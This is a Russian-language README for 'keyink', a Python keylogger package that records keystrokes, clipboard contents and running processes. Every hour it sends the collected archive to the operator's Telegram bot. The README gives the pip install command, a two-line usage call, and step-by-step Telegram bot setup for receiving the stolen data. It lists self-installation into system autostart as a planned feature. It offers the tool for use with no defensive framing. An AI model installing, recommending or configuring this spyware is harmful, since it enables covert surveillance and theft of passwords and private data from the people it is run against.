 [![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# keyink

Кейлогер всего лишь в 2 строки. Отправка в Telegram.

## Описание
`keyink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)

### Текущие возможности
1. Логирование клавиатуры, буфера обмена, запущенных процессов.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других логеров.
2. Добавление в автозагрузку системы.
 
## Установка

Установить последнюю версию можно командой:
```
pip install lgink==0.0.1
```

## Пример использования
### Стандартный
```python
from keyink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID).run()
```
Стандартный ```Logger``` запускает все доступные логгеры и отправляет собранные данные архивом вам в Telegram каждый час.

Передаваемые параметры:
* `token` - токен Telegram бота.
* `user_id` - ваш айди Telegram.
* `keyboard` - добавить логер клавиатуры (True/False).
* `clipboard` - добавить логер буфера обмена (True/False).
* `processes` - добавить логер процессов (True/False).
* `special_keys` - добавлять в логи спец клавиши Enter, Shift, Alt  и тд (True/False).
* `pause_iteration` - частота проверки запущенных процессов в секундах.
* `sleep` - частота отправки собранных логов в секундах.

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописываем название бота, затем ник с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
